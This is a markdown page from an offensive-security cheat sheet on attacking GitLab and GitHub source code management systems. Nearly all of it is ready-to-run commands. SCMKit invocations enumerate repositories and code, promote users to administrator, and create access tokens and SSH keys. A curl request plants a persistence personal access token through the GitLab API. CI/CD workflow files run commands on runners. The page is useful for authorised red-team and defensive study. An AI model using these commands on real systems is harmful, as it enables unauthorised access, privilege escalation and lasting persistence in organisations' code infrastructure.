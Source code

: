 +++
title = "Source Code Management"
date = '2022-11-03'
description = 'Knowledge and tips on source code management.'
+++

# Source Code Management

> 


## Enumeration


Using [SCMKit - Source Code Management Attack Toolkit](https://github.com/xforcered/SCMKit)

* Discover repositories being used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m listrepo -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listrepo -c apiKey -u https://gitlab.something.local
    ```
* Search for repositories by repository name in a particular SCM system
    ```ps1
    SCMKit.exe -s github -m searchrepo -c userName:password -u https://github.something.local -o "some search term"
    SCMKit.exe -s gitlab -m searchrepo -c apikey -u https://gitlab.something.local -o "some search term"
    ```
* Search for code containing a given keyword in a particular SCM system
    ```ps1
    SCMKit.exe -s github -m searchcode -c userName:password -u https://github.something.local -o "some search term"
    SCMKit.exe -s github -m searchcode -c apikey -u https://github.something.local -o "some search term"
    ```
* Search for files in repositories containing a given keyword in the file name in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m searchfile -c userName:password -u https://gitlab.something.local -o "some search term"
    SCMKit.exe -s gitlab -m searchfile -c apikey -u https://gitlab.something.local -o "some search term"
    ```
* List snippets owned by the current user in GitLab
    ```ps1
    SCMKit.exe -s gitlab -m listsnippet -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listsnippet -c apikey -u https://gitlab.something.local
    ```
* List all GitLab runners available to the current user in GitLab
    ```ps1
    SCMKit.exe -s gitlab -m listrunner -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listrunner -c apikey -u https://gitlab.something.local
    ```
* Get the assigned privileges to an access token being used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m privs -c apiKey -u https://gitlab.something.local
    ```
* Promote a normal user to an administrative role in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m addadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m addadmin -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removeadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    ```
* Create/List/Delete an access token to be used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m createpat -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m createpat -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removepat -c userName:password -u https://gitlab.something.local -o patID
    SCMKit.exe -s gitlab -m listpat -c userName:password -u https://gitlab.something.local -o targetUser
    SCMKit.exe -s gitlab -m listpat -c apikey -u https://gitlab.something.local -o targetUser
    ```
* Create/List an SSH key to be used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m createsshkey -c userName:password -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m createsshkey -c apiToken -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m listsshkey -c userName:password -u https://github.something.local
    SCMKit.exe -s gitlab -m listsshkey -c apiToken -u https://github.something.local
    SCMKit.exe -s gitlab -m removesshkey -c userName:password -u https://gitlab.something.local -o sshKeyID
    SCMKit.exe -s gitlab -m removesshkey -c apiToken -u https://gitlab.something.local -o sshKeyID
    ```

## Personal Access Token

Create a PAT (Personal Access Token) as a persistence mechanism for the Gitlab instance.

```ps1
curl -k --request POST --header "PRIVATE-TOKEN: apiToken" --data "name=user-persistence-token" --data "expires_at=" --data "scopes[]=api" --data "scopes[]=read_repository" --data "scopes[]=write_repository" "https://gitlabHost/api/v4/users/UserIDNumber/personal_access_tokens"
```

## Exploit Gitlab CI/Github Actions

* Gitlab-CI "Command Execution" example: `.gitlab-ci.yml`
    ```yaml
    stages:
        - test

    test:
        stage: test
        script:
            - |
                whoami
        parallel:
            matrix:
                - RUNNER: VM1
                - RUNNER: VM2
                - RUNNER: VM3
        tags:
            - ${RUNNER}
    ```
* Github Action "Command Execution" example: `.github/workflows/example.yml`
    ```yml
    name: example
    on:
      workflow_dispatch:
      push:
        branches: [ main ]
      pull_request:
        branches: [ main ]

    jobs:
      build:
        runs-on: windows-2019

        steps:
          - name: Execute
            run: |
              whoami
    ```
    
## References

* [Controlling the Source: Abusing Source Code Management Systems - Brett Hawkins - August 9, 2022](https://securityintelligence.com/posts/abusing-source-code-management-systems/)

